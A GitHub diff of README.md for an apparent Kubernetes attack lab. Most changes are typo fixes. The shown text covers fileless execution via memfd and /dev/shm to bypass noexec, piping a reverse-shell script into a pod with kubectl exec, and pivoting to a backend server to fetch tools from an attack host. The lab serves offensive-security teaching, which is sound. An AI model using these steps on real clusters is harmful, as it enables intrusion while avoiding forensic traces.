

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -84,14 +84,14 @@ Observations:
 
 ## Step 3: Dealing with Read-Only File System
 
-(https://breakdance.github.io/breakdance/) shows how we can we can utilize tmpfs mounted filesystems for temporary file manipulation. We will be using the memfd syscall to create in memory elf64 binary files. Then execute those files without touching the file system. As we are not leaving any traces or files (IoC) on the file system. We will try to confine our actives in memory when posible.
+(https://breakdance.github.io/breakdance/) shows how we can we can utilize tmpfs mounted filesystems for temporary file manipulation. We will be using the memfd syscall to create in memory elf64 binary files. Then execute those files without touching the file system. As we are not leaving any traces or files (IoC) on the file system. We will try to confine our actives in memory when possible.
 
 Check what filesystems are mounted with tmpfs as paths may vary.
 ```sh
 $ mount -t tmpfs
 shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
 ```
-We can interact with `/dev/shm` for our purposes to execute scripts with python inpreter in runnimg memroy, even bypassing `noexec` flags assosated with the filesystem.
+We can interact with `/dev/shm` for our purposes to execute scripts with python interpreter in running memory, even bypassing `noexec` flags associated with the filesystem.
 
 `/dev/shm` will gernally be available for all pods on a Kuberntes work node by `default`.
 
@@ -102,7 +102,7 @@ We can see what version of python is available on the system with `python --vers
 # Introduction to Fee: https://pypi.org/project/fee/
 Execute ELF files on a machine without dropping an ELF.
 
-Create a Docker image to convert our elf64 binaries into inerperated code
+Create a Docker image to convert our elf64 binaries into interperted code
 `Docker Image`:
 ```sh
 FROM python:3
@@ -111,7 +111,7 @@ RUN pip install --user fee
 ```
 ---
 
-Test fee by copying the `id` biniary onto your local and converting it to python with `fee`
+Test fee by copying the `id` binary onto your local and converting it to python with `fee`
 ```sh
 $ cp backend/postgres-deployment-85696c855-mr4c2:/usr/bin/id /tmp/kid
 $ file /tmp/kid
@@ -157,13 +157,13 @@ docker run -v /tmp/:/host -it localhost:5000/docker-fee:0.1 /bin/sh -c '/root/.l
 ```bash
 cat psqlrev.py | kubectl -n frontend exec -it app-6f85bcbff4-m6zht -- python3
 ```
-You should now be on the backend server
+You should now be on the backend server!
 
 ----
 ## Step 6
 <a id="item-six"></a>
 Now that we have laterally pivited to backend server that does not have a read-only mount we are going to pull `kubectl` command
-with perl from or attack host or from the interweb. We are using perl as our interperter as python3 is not installed on postgres container. With diverse workloads we need many different tools.
+with perl from or attack host or from the interweb. We are using perl as our interpreter as python3 is not installed on postgres container. With diverse workloads we need many different tools.
 
 ```perl
 #!/usr/bin/perl use strict;
@@ -335,13 +336,10 @@ if ($response->{success}) {
 ```
 ## Conclusion
 
-Through these steps, we've demonstrated fileless execution within a Kubernetes environment, highlighting techniques to navigate around read-only file systems and interact with network services.
+We've demonstrated fileless execution within a Kubernetes environment, highlighting techniques to navigate around read-only file systems and interact with network services.
 
 
 ## References
-
-Dillinger is currently extended with the following plugins.
-Instructions on how to use them in your own application are linked below.
 
 | Tech | Link |
 | ------ | ------ |
````
Also changed, not shown: other parts of README.md (+4 -3 lines).
